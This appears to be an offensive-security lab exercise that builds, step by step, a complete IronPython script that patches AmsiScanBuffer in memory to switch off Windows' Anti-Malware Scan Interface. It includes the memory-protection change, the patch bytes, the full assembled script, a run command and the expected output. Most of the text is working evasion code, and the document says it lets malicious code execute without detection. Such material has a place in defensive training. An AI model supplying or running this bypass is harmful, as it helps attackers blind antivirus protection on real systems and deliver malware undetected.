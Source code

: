 # Exercise 6: AMSI Bypass with IronPython
This exercise aims to build a script using IronPython to bypass the Anti-Malware Scan Interface (AMSI). AMSI is an open interface available on Windows 10 for applications to request, at runtime, a synchronous scan of a memory buffer by an installed antivirus or security solution. The script patches a specific method of the AMSI's DLL loaded in memory, therefore allowing malicious code to execute without detection.

The script utilizes functionalities provided by the ctypes library in IronPython, which provides C-compatible data types and allows to call functions in DLLs/shared libraries.

1. First, let's test that AMSI is working on the machine. Type `amsicontext` into the existing terminal
2. You should see a malware blocked error that looks like this

```powershell
At line:1 char:1
+ amsicontext
+ ~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

3. Now let's write the bypass by first creating another python file called powershell_amsi_bypass.py similar to Exercise 5
4. Start by importing the required modules. `clr`` allows IronPython to interface with .NET and System provides access to core .NET functionalities. os is a Python library for interacting with the Operating System.

```python
import clr
import System
import os
```

5. Load the System.Management.Automation .NET library. System.Management.Automation provides access to the PowerShell runtime. Runspaces enable creating and managing PowerShell runspaces, which are containers that host PowerShell pipelines.

```python
clr.AddReference("System.Management.Automation")
from System.Management.Automation import Runspaces
```

6. Import additional required modules and functions. These imports include both Python and .NET classes and functions used throughout the script. Notable ones are ctypes (provides C-compatible data types in Python), IntPtr and UInt32 (.NET data types), and Marshal (.NET class for marshaling data between managed and unmanaged code).

```python
import clrtype
from ctypes import *
import ctypes
from System import Convert, Text, Environment, IntPtr, UInt32
from System.Management.Automation import Runspaces, RunspaceInvoke
from System.Runtime.InteropServices import DllImportAttribute, PreserveSigAttribute, Marshal, HandleRef, CharSet
```

7. Define the bypass function. This function starts by loading amsi.dll into the application's memory space using LoadLibrary.

```python
def bypass():
    windll.LoadLibrary("amsi.dll")
```

8. Get the handle of amsi.dll. Here, the script retrieves a module handle for amsi.dll, which is necessary to later get the address of the function to patch.

```python
windll.kernel32.GetModuleHandleW.argtypes = [c_wchar_p]
windll.kernel32.GetModuleHandleW.restype = c_void_p
handle = windll.kernel32.GetModuleHandleW('amsi.dll')
```

9. Retrieve the address of the AmsiScanBuffer function within amsi.dll. GetProcAddress retrieves the address of the AmsiScanBuffer function in memory, which is the function we will patch to bypass AMSI.
```python
windll.kernel32.GetProcAddress.argtypes = [c_void_p, c_char_p]
windll.kernel32.GetProcAddress.restype = c_void_p
BufferAddress = windll.kernel32.GetProcAddress(handle, "AmsiScanBuffer")
```

10. Change the memory protection of the AmsiScanBuffer function to PAGE_EXECUTE_READWRITE (0x40). VirtualProtect changes the protection on a region of committed pages in the virtual address space of the calling process.

```python
BufferAddress = IntPtr(BufferAddress)
Size = System.UInt32(0x05)
ProtectFlag = System.UInt32(0x40)
OldProtectFlag = Marshal.AllocHGlobal(0)
virt_prot = windll.kernel32.VirtualProtect(BufferAddress, Size, ProtectFlag, OldProtectFlag)
```

11. Write a patch to the start of the AmsiScanBuffer function. The script patches AmsiScanBuffer to always return S_OK, causing AMSI to believe the scanned content is safe.

```python
patch = System.Array[System.Byte]((System.UInt32(0xB8), System.UInt32(0x57), System.UInt32(0x00), System.UInt32(0x07), System.UInt32(0x80), System.UInt32(0xC3)))
Marshal.Copy(patch, 0, BufferAddress, 6)
```

12. Define the main function to run the bypass and execute a PowerShell script. After bypassing AMSI, the script opens a PowerShell runspace, executes the PowerShell command 'amsicontext', and prints the output.

```python
def main():
    bypass()
    runspace = Runspaces.RunspaceFactory.CreateRunspace()
    runspace.Open()
    scriptInvoker = RunspaceInvoke(runspace)
    pipeline = runspace.CreatePipeline()
    pipeline.Commands.AddScript(r"'amsicontext'")
    pipeline.Commands.Add("Out-String")
    output = pipeline.Invoke()
    for o in output:
        print(o)
    runspace.Close()
```

13. Run the main function if the script is being run as a standalone program. The if __name__ == '__main__': Python idiom is used to ensure the main function is only run when the script is executed directly (not imported as a module).

```python
if __name__ == '__main__':
    main()
```

14. The script should look like the code below.

```python
import clr
import System
import os

clr.AddReference("System.Management.Automation")
from System.Management.Automation import Runspaces
from ctypes import *
import ctypes
from System import Convert, Text, Environment, IntPtr, UInt32
from System.Management.Automation import Runspaces, RunspaceInvoke
from System.Runtime.InteropServices import DllImportAttribute, PreserveSigAttribute, Marshal, HandleRef, CharSet

def bypass():
    windll.LoadLibrary("amsi.dll")
    windll.kernel32.GetModuleHandleW.argtypes = [c_wchar_p]
    windll.kernel32.GetModuleHandleW.restype = c_void_p
    handle = windll.kernel32.GetModuleHandleW('amsi.dll')
    windll.kernel32.GetProcAddress.argtypes = [c_void_p, c_char_p]
    windll.kernel32.GetProcAddress.restype = c_void_p
    BufferAddress = windll.kernel32.GetProcAddress(handle, "AmsiScanBuffer")
    BufferAddress = IntPtr(BufferAddress)
    Size = System.UInt32(0x05)
    ProtectFlag = System.UInt32(0x40)
    OldProtectFlag = Marshal.AllocHGlobal(0)
    virt_prot = windll.kernel32.VirtualProtect(BufferAddress, Size, ProtectFlag, OldProtectFlag)
    patch = System.Array[System.Byte]((System.UInt32(0xB8), System.UInt32(0x57), System.UInt32(0x00), System.UInt32(0x07), System.UInt32(0x80), System.UInt32(0xC3)))
    Marshal.Copy(patch, 0, BufferAddress, 6)

def main():
    bypass()
    runspace = Runspaces.RunspaceFactory.CreateRunspace()
    runspace.Open()
    scriptInvoker = RunspaceInvoke(runspace)
    pipeline = runspace.CreatePipeline()
    pipeline.Commands.AddScript(r"'amsicontext'")
    pipeline.Commands.Add("Out-String")
    output = pipeline.Invoke()
    for o in output:
        print(o)
    runspace.Close()

if __name__ == '__main__':
    main()
```

15. Execute the IronPython code using the following command in the terminal

```
.\ipy.exe powershell_amsi_bypass.py
```

16. If successful, you should see the output below

```powershell
amsicontext
```
